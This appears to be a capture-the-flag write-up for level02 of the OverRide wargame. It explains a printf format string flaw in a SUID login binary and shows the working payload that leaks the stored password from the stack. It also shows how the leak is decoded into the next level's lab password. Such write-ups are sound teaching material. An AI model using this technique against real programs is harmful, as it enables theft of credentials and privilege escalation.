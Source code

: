 # Level 2

## Vulnerability

printf() format string attack, read password on stack

## Context

We find a binary with owner ```level03``` and SUID.
```
level02@OverRide:~$ ls -l
-rwsr-s---+ 1 level03 users 9452 Sep 10  2016 level02
```

When run it prompts user to log in with username and password. It exits if given incorrect password.
```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: me!
--[ Password: mine!
*****************************************
me! does not have access!
```

## Solution

### main() overview

Investigating with gdb we find no other functions apart from ```main()```. See [disassembly notes](https://github.com/anyashuka/Override/blob/main/level02/disassembly_notes.md) for detailed gdb assembly breakdown.

First ```main()``` reads the correct password for user ```level03```, from the ```/home/users/level03/.pass``` file, into a variable on the stack.

Then ```main()``` prompts user for username and password, reading from stdin.

Finally ```strncmp()``` compares the password input by user with the correct password. If the password is correct ```system("/bin/sh")``` opens a shell.

### Exploit

The key vulnerability is the username provided is then printed with ```printf()```. So we can use the format string attack to print what is on the stack, where the password is stored.

With the format string attack, looking through arguments in the stack we find what looks like a password at arguments 22-26.
```
level02@OverRide:~$ (python -c 'print("%26$p%25$p%24$p%23$p%22$p")'; python -c 'print("pass")'; cat) | ~/level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x48336750664b394d0x354a35686e4758730x377a7143574e67580x45414a35617339510x756e505234376848 does not have access!
```

Converted to ASCII, and reversed to revert endian, we find our password.
```
level02@OverRide:~$ echo 0x48336750664b394d0x354a35686e4758730x377a7143574e67580x45414a35617339510x756e505234376848 | xxd -r -p | rev
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

Let's log in to confirm this is the correct password.
```
level02@OverRide:~$ su level03
Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
...
level03@OverRide:~$
```
